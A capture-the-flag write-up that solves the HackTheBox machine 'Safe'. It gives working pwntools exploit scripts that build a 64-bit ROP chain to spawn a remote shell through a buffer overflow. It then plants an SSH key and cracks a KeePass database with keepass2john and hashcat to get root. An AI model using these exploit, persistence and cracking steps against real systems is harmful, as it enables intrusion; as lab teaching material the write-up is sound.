






<p align="center">
  
</p>

***

# External Recon

You know the dance. We start with nmap.

```
nmap -sV -sC -oN initial -T4 10.10.10.147

22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As there's not much to see here I visited the website.
Only the Apache2 default page was shown. Maybe we can find more about this by running a script scan.

`nmap --script discovery,safe,vuln -oN script -T4 10.10.10.147`

In the very long output of this scan we can find this line comment out in the source-code...

`'myapp' can be downloaded to analyze from here its running on port 1337`

...and when you take a look at the real source code of the website we can confirm it's there.


# Explore

Let's see if "Port 1337" is indeed open:


Looks good. When we enter some values the application will echo them back to us.

Let's try to download "myapp" from the root of the website.



So, as you might have guessed by now, this smells like a "buffer overflow" challenge.
At first I was very excited. An easy rated box with a "bof"? What an opportunity to
test myself. Well, the excitement disappeared after running "checksec".


First of all it's a 64Bit binary. Never played with 64Bit "buffer overflows".
Second it has the "NX-Bit" set. Which means the "Stack" is not executable.

In order to overcome this, we need to use a exploitation-technique known as "ROP - Return Oriented Programming".
But, it's an easy rated box - this can't be too hard - right?

# Exploit

I had to try it anyways. I spent at least two days trying to figure out how to write an exploit for this. But other than
"fuzzing" the program, finding the "offset" and such things - I was not able to accomplish much.

Then I got a tip. "There's a tool called "ROPStar". I tracked it down and from the description it looked like cheating.
You give it a binary or an IP-Address and it will auto-exploit it for you. I downloaded the tool and gave it a shot.

But, and that's very important to note here: I set myself a goal to root the box and use the flag to read
one of the <a href="https://github.com/Hackplayers/hackthebox-writeups" target="_blank">Hackplayers</a> writeups and analyze the exploit until I can do it myself.

So - let's do it the lazy way first.

`python ropstar.py ~/HTB/Boxes/Safe/exploit/myapp`

This was all to get a local shell on my own system.

`python ropstar.py ~/HTB/Boxes/Safe/exploit/myapp -rhost 10.10.10.147 -rport 1337`

And this to get a shell to the box.



It took no more than 5 seconds. That's amazing - but not the way I want to solve that box. I can do better than this. After rooting the box and reading the "writeup" I replicated the "exploit".
I sort of understood what was going on. But I was still not satisfied. So I started and solved
most of the 32Bit <a href="https://ropemporium.com/" target="_blank">ROPEmporium</a> Challenges which are dedicated to teach <kbd>ROP</kbd> techniques.

I came back to "safe" just to fail again. I checked the "copied" exploit - but I couldn't understand it anymore.
I was frustrated. So I sat down again - and analyzed the "exploit" from the "writeup" again. Until I understood it, found my mistake
and came to the conclusion that I didn't like the method presented in the writeup. ;D

I found my own solution. Which I find more intuitive. So here is my solution:

First we need to crash the program to check if it's vulnerable. I didn't used a special "fuzzer" for that.
I just tried a couple of inputs until I found a crash. I used 300 Bytes to generate the crash in the screenshot.


Before we can start working on the exploit, we need to find the exact input till we overwrite "RSP".

I had to use <kbd>gdb-peda's pattern_create</kbd> for this. I don't know why, but <kbd>msf-pattern_create</kbd>
produced a pattern that I couldn't use to find the offset. I suspected bad characters and tried to create a custom patter-set. Didn't work either. If you know what's going on here - let me know.

`gdb-peda$ pattern_create 300 pattern.txt`

Next we start "myapp" with "gdb-peda" and throw our pattern in.


If you don't get a crash you might need to change your "peda.py" file. At the very bottom are a couple of settings.
Change it from: <kbd>peda.execute("set follow-fork-mode child")</kbd> to: <kbd>peda.execute("set follow-fork-mode parent")</kbd>

Otherwise the application should crash and "RSP" has a value of: <kbd>jAA9AAOAAkAAPAAlAA</kbd>.
We can use this pattern to find the offset.

```
gdb-peda$ pattern_offset jAA9AAOAAkAAPAAlAA
jAA9AAOAAkAAPAAlAA found at offset: 120
```

Let's start crafting a first proof of concept and see if we can control "RIP".


#!/usr/bin/python3
from pwn import *

payload = b'A' * 120           # offset to RIP
payload += p64(0x42424242)      # RIP
payload += b'C' * 170           # some more junk, because why not

f = open("payload.txt", "wb")
f.write(payload)


This script needs the "pwntools" library.
For now we just use the <kbd>p64()</kbd> function as a helper to convert the addresses we will use for our "ROPChain" to "little endian" and also to the propper byte sequence.

Other than that we just fill up the buffer, overwrite "RIP" and write this to a file.
Let's start the application again in "gdb-peda" and redirect the file's content into it.


Success. "RIP" has been overwritten with an value we control.


But what now? Well, as I've said, when the "NX-Bit" is set, we can't jump into the stack to execute our code. But we can still jump around in the existing code. We just need to find some special instructions within the application, chain them together and make the application do things, it was never intended to do.

Let's get an overview of the functions in the program. "objdump" is right tool for that.
The <kbd>-M intel</kbd> parameter changes the display settings to "intel" syntax. I find it easier to read.

`objdump -M intel -d myapp`

Here you can see the <kbd>main()</kbd> function of the program.



And here's another interesting function called <kbd>test()</kbd>.


In the function <kbd>main()</kbd> we can see that some other functions are being called,
<kbd>system()</kbd> for example. Our goal is now to call <kbd>system()</kbd> and while doing so, provide
our own arguments like <kbd>/bin/sh</kbd>. In 64-Bit applications, arguments are provided via the "CPU-Registers". You need to use "rdi" for your first, "rsi" for your second and "rdx" for your third argument. We just want to pass the <kbd>/bin/sh</kbd> string, so just one register is needed: "rdi". The <kbd>system()</kbd> call will be stored in one of the general purpose registers. I'll come back to this in a second. If this is successful, we would get a shell.

So, let's take some notes: First we need to find some instructions that <kbd>pop</kbd> values we put on the stack, into the registers. I used "ropper" for this.

"ropper" will search for special instructions that end with a <kbd>ret</kbd> or <kbd>return</kbd> instruction. Hence the name "Return Oriented Programming". After the chain is executed, it will return and will execute the next instruction stored in "RIP". Which we still control.

`ropper -f myapp | grep pop`


Our "grep" already filtered the output for a couple of "pop gadgets".
But which one should we use? Well, we need to jump to the register in with we will store the <kbd>system()</kbd> address. So let's start with finding a <kbd>jmp</kbd>
and see if the <kbd>jmp</kbd> can tell us which "pop gadgets" we should use.

"ropper" found no suitable <kbd>jmp</kbd> for my situation. So I went back to "objdump" and found a <kbd>jmp r13</kbd> in the <kbd>test()</kbd> function.


This means we need a <kbd>pop r13</kbd> gadget to store <kbd>system()</kbd> and later <kbd>jmp r13</kbd> to call it. In the "ropper" output you can see a
<kbd>pop r13</kbd>. Note that there are two more <kbd>pop's</kbd> before the <kbd>ret</kbd>.



You'll see later why this is important.

We need also a way to put <kbd>/bin/sh</kbd> into "rdi". For this, the gadget <kbd>mov rdi,rsp</kbd>
would be ideal. We can find such an instruction with "objdump" in the <kbd>test()</kbd> function.


Last but not least, we need the memory address of <kbd>system()</kbd>.


Let's check what we've got so far.


system()             @ 0x401040
mov rdi, rsp         @ 0x401156
jmp r13              @ 0x401159
pop r13, r14, r15    @ 0x401206


Now we need to put all of them in the right order. First we will send our "120 Bytes" of
junk. Then the address of the <kbd>pop r13</kbd> instruction. It will "pop" the first value from the "stack" into "r13". We want <kbd>system()</kbd> to be in "r13". So the address to <kbd>system()</kbd> will be next. After <kbd>pop r13</kbd>, two more "pop's" will take place. We need to place two dummy values on the "stack" to account for that. Now we need to prepare the arguments for the <kbd>system()</kbd> call. So the address to <kbd>mov rdi, rsp</kbd> will be next, followed by the string <kbd>/bin/sh\x00</kbd>.

You might have noticed that the <kbd>jmp r13</kbd> doesn't need to be put into our "rop-chain" directly. It's the next instruction after <kbd>mov rdi, rsp</kbd> and will be executed after that. How nice. ;)

Let's put all of this into an exploit script.


#!/usr/bin/python3
from pwn import *

# Stage 0
junk = b'A' * 120 # Overflow
cmd = b'/bin/sh\x00' # Argument

# ROP
pop = p64(0x401206) # pop r13
mov = p64(0x401156) # mov rdi, rsp

# RCE
fake = p64(0x000000) # dummy value for pop r14 and pop r15
system = p64(0x401040) # system address


# Create Payload
payload = junk + pop + system + fake + fake + mov + cmd

f = open("payload.txt", "wb")
f.write(payload)


After running the script we will have our payload in a text file called "payload.txt". You could try to redirect the contents into the application like so:

`./myapp < payload.txt`

But you will just get a "segfault". Why is that? Well, it took me a while to find an answer for that - but here it is.
When you hit enter on the above command, the application will start up and get to the point where you can feed it data via "stdin".
The exploit code will be copied into the buffer, will do it's thing and start up a shell. But, because the "stdin" will be closed now (no more data is in the text file)
the shell will close and the function will return and since we corrupted the stack it will segfault. So our task is to keep the shell alive by holding "stdin" open.

The following command will do just that.   

`(cat payload.txt; cat) | ./myapp`

The first "cat payload.txt" will feed the exploit into the application. When the shell is up and running, the second "cat" kicks in.
Because we didn't give it any arguments it will be just an interactive "echo" tool. Try it yourself. Start "cat" without parameters and enter something.
Whatever will be entered, "cat" will echo it back. So you feed data in via "stdin" and "cat" will echo it back via "stdout". The "pipe" will transport that to the application which is now your shell. Elegant right?  


But, can we use this technique remotely too? Sure we can. We will replace the local application
with "nc" and connect to the service that's running on the "HackTheBox" machine.


We are in! :)
And we also have access to the `user.txt`.


Between rooting this box and writing this writeup I played a lot with this binary.
This is why I also have a "pwntools" version of this exploit. This version doesn't need the "cat" magic.


#!/usr/bin/python3
from pwn import *

# PwnTools
context(arch = 'amd64', os = 'linux', terminal = ['tmux','splitw', '-h'])
#p = process("./myapp")
#gdb.attach(p, "b *0x401206")
p = remote("10.10.10.147", 1337)

# Stage 0
junk = b'A' * 120 # Overflow
cmd = b'/bin/sh\x00' # RCE

# ROP
pop = p64(0x401206)
jmp = p64(0x401156)

# RCE
fake = p64(0x000000)
system = p64(0x401040)


# Create Payload
payload = junk + pop + system + fake + fake + jmp + cmd

p.sendline(payload)
p.interactive()


# Internal Recon
Phew. That was quite a trip. But the last part is super easy.
In the user folder, next to the `user.txt` we already see a "keepass-database"
and a bunch of files..

If you don't know keepass: It's a "password manager".
Keepass, like many other password managers, have a feature where you can enter your password and a keyfile.
Which can be anything. A text file. An image. Something that won't change. And it will be used as a second factor to the password.

Seems logical that we try cracking the "keepass-database" before anything else.

# Privilege Escalation

To download the files, we first need better access. Let's deploy a "ssh-key" on the box and login with a real shell.

First we generate a new key and get the public part of it:



Then we "echo" it over into the <kbd>/home/user/.ssh/authorized_keys</kbd> file.


Now we can login but also download all files.

`scp -i /root/HTB/Boxes/Safe/id_rsa -r user@10.10.10.147:/home/user/ /root/HTB/Boxes/Safe/Download`

Now we need to extract the hash from the database and also provide the images as a second factor.

`keepass2john -k $Images`

We will use "hashcat" to crack the hashes.
"Hashcat" doesn't need the "MyPassword" string so I removed it and started cracking.

`hashcat -m 13400 -a 0 -w 1 hashes.txt /usr/share/wordlists/rockyou.txt --force`

In my case the 3rd key was correct and the password is: </kbd>bullshit</kbd>.

# Root Flag

Armed with this "password" we can open the password-safe and get the password for root.



If you don't have keepass installed on your box <kbd>apt install keepassx</kbd> will do the trick.

A simple <kbd>su -</kbd> get's us the root flag.


Box solved. But most important - I learned a lot of new things! :)

Till next time!

x41